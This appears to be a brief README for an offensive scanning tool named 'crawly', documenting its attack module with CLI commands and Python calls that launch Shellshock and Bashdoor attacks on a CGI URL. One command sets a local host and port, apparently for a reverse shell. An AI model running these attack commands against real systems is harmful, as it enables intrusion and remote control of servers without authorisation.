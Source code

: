 # Attack

# File

- [x] attack.py

This file contains attacking classes of crawly. Each class instancied is auto runned with the gived paremeters.

# Shellshock / Bashdoor

```python
# CLI command
crawly -A http://www.test.com/cgi-bin/vuln.cgi --shellshock
crawly -A http://www.test.com/cgi-bin/vuln.cgi --bashdoor --lhost 192.168.1.2 --lport 4444

class Shellshock:
    def __init__(self, URL)
    
>>> import crawly
>>> URL = "http://www.test.com/cgi-bin/vuln.cgi"
>>> crawly.Shellshock(URL)
>>> crawly.Bashdoor(URL)
```
